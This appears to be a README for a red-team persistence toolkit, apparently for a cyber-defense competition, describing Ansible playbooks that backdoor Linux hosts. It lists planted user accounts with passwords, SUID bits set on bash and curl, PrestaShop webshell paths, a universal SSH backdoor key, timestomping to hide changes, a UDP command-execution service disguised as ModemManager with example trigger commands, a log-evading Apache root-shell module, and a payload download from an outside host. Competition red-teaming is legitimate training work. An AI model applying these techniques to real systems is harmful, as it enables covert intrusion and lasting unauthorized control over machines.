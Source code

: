 # How to run Ansible
The plays are defined in ansible/playbooks. Then they are referenced in configure.yml, if you want to add new plays put them in the playbook dir and then add it to the configure.yml file

To run:
ansible-playbook -i inventory.yml confgiure.yml

Some backdoors require clients or private keys.
Download those from http://xync.org/en/payloads.tgz
  Ansible scripts require this file to be unpacked in /opt directory
  If you're not executing ansible, they keys and clients can be used from anywhere

### It will create users:
zonifer:unique_password_zonifer
svc:unique_password_svc
score:unique_password_score
whiteTeam:unique_password_whiteTeam
dnsdog:unique_password_dnsdog
ccdc:unique_password_ccdc
donttouch:unique_password_donttouch

### Add SUID bit to the following binaries
/usr/bin/awk
/usr/bin/cat
/usr/bin/curl
/usr/bin/base64
/bin/bash
/usr/bin/cp
/usr/bin/curl
/usr/bin/dig
/usr/bin/find
/usr/bin/file

### Drop webshells on .11 
/var/www/html/prestashop/carts.php?carts.php=id
/var/www/html/prestashop/config/confi.php?_=id
/var/www/html/prestashop/classes/Backups.php?backup=id
/var/www/html/prestashop/classes/tax/taxes3.php?tax=id

### SSH Modifications
Configures ssh to allow password authentication (starts enabled)
Configures ssh to allow logins by root
Adds a universal authorized key called ivbackdoor (allows authentication as any user)
Adds an authorized key to root (rootkey)
Adds an authorized key to sysadmin (or grporter (same key) on Fed21)
Updates modified times on all files to blend in

### Install watershell as a systemd service named ModemManager (runs any command in the payload of a UDP packet to 1337)
echo "run:touch /tmp/win" | socat - udp-datagram:172.25.40.255:1337
OR from a bash shell (not zsh,csh,*sh)
echo "run:touch /tmp/win" > /dev/udp/172.25.40.20/1337

### Install the mod_rootme Apache mod (root shell from a web request, doesn't hit access_logs)
/opt/payloads/common/apache-client [IP]

### Create an /etc/address file
This file contains the external IP address of the machine.  When a beacon calls back, the machine looks identical for every team.  This will let us figure out which team the specific callback belongs to.

# Windows
This folder is full of windows bits

# Persistence
This is a general linux based persistence

# funStuff is for troll scripts & 
